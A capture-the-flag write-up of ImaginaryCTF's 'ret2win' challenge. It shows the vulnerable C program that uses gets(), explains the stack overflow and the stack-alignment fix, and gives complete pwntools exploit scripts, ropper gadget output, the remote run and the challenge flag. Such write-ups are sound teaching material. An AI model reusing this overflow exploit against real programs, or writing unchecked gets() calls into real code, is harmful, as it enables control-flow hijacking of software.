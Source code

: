 # ret2win

## Description

> Can you overflow the buffer and get the flag? (Hint: if your exploit isn't working on the remote server, look into stack alignment)
>
> Author: Eth007
>
> https://imaginaryctf.org/r/BoCID#vuln \
> https://imaginaryctf.org/r/73iLJ#vuln.c \
> nc ret2win.chal.imaginaryctf.org 1337

Tags: _pwn_

## Solution

As the challenge name suggests, this is a `ret2win` challenge, which means We have to change the flow of the program to execute a function called `win()` by doing a stack overflow and overwriting the return address `RET` to redirect the program's execution flow to the address of the `win()` function. I really recommend watching [this video](https://www.youtube.com/watch?v=1S0aBV-Waeo) since he explains really well how buffer overflow works.

Now, let's take a look at the source code:

```c
#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[64];
  gets(buf);
}

int win() {
  system("cat flag.txt");
}
```

As we can see the program just initialize a 64 bytes buffer (or 64 characters since a character is 1 byte long), and lets the user fill it using the function `gets()`. This function is well known as being vulnerable to buffer overflow attacks because it does not perform any bounds checking on the input. So the idea here is to provide the program with 64 bytes of garbage to fill the buffer plus 8 bytes of more garbage to overwrite the base pointer `BP` and the `win()` function's address to overwrite the return address `RET` effectively changing the program's flow execution. To do so I used the `pwntools` library, which is a powerful and popular framework for exploit development. Don't be stirred by the number of lines, the most important thing to see here is the part where I build the payload and send it to the program, everything else is more like a template.

```python
#!/usr/bin/python3
from pwn import *

# Set up the target binary by specifying the ELF file
elf = context.binary = ELF("vuln")

# Defining the GDB script that will be used when running the binary
gs = '''
continue
'''
# Launch the binary with GDB, without GDB or REMOTE based on the command-line arguments
def start():
    if args.REMOTE:
        return remote("ret2win.chal.imaginaryctf.org", 1337)
    else:
        if args.GDB:
            return gdb.debug(elf.path, gdbscript=gs)
        else:
            return process(elf.path)

io = start()

# Overwrite the return address with the win() function's memory address
payload = b'A'*72 + p64(elf.sym.win)

# Send the payload
io.sendline(payload)

# Interact with the process
io.interactive()
```

Run the exploit script as I did here:

```shell
$ ./xpl.py REMOTE
[*] '/home/jovenoven/Downloads/imaginary_ctf/pwn/ret2win/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to ret2win.chal.imaginaryctf.org on port 1337: Done
[*] Switching to interactive mode
== proof-of-work: disabled ==
[*] Got EOF while reading in interactive
$ a
$ a
[*] Closed connection to ret2win.chal.imaginaryctf.org port 1337
[*] Got EOF while sending in interactive


```

It didn't retrieve the flag because internally the program got a `SIGSEGV` code or a `segmentation fault`. The reason why this happens is a stack alignment error. Stack alignment refers to the requirement that the stack pointer `SP` should be aligned to a multiple of 16 bytes, which is violated when inserting the `win()` function address directly. The easiest way to solve this problem is to add a `ret` gadget to the payload, effectively creating a [`ROP Chain`](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/rop-chaining-return-oriented-programming). We can get its address with `ropper`.

```c
$ ropper --file vuln
...
0x00000000004010a3: cli; ret;
0x000000000040119c: endbr64; sub rsp, 8; add rsp, 8; ret;
0x0000000000401000: endbr64; sub rsp, 8; mov rax, qword ptr [rip + 0x2fe9]; test rax, rax; je 0x1016; call rax;
0x00000000004010a0: endbr64; ret;
0x0000000000401095: hlt; nop word ptr cs:[rax + rax]; endbr64; ret;
0x0000000000401178: leave; ret;
0x0000000000401196: nop; pop rbp; ret;
0x00000000004010cf: nop; ret;
0x000000000040101a: ret;

100 gadgets found

```

The final script should look like this:

```python
#!/usr/bin/python3
from pwn import *

# Set up the target binary by specifying the ELF file
elf = context.binary = ELF("vuln")

# Defining the GDB script that will be used when running the binary
gs = '''
continue
'''
# Launch the binary with GDB, without GDB or REMOTE based on the command-line arguments
def start():
    if args.REMOTE:
        return remote("ret2win.chal.imaginaryctf.org", 1337)
    else:
        if args.GDB:
            return gdb.debug(elf.path, gdbscript=gs)
        else:
            return process(elf.path)

io = start()

# Overwrite the return address with the win() function's memory address
payload = b'A'*72 + p64(0x40101a) + p64(elf.sym.win)

# Send the payload
io.sendline(payload)

# Interact with the process
io.interactive()
```

Then, execute it with the `REMOTE` option and get the flag!

```shell
$ ./solve.py REMOTE
[*] '/home/jovenoven/Downloads/imaginary_ctf/pwn/ret2win/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to ret2win.chal.imaginaryctf.org on port 1337: Done
[*] Switching to interactive mode
== proof-of-work: disabled ==
ictf{r3turn_0f_th3_k1ng?}
[*] Got EOF while reading in interactive
$ a
$ a
[*] Closed connection to ret2win.chal.imaginaryctf.org port 1337
[*] Got EOF while sending in interactive

```

Flag `ictf{r3turn_0f_th3_k1ng?}`

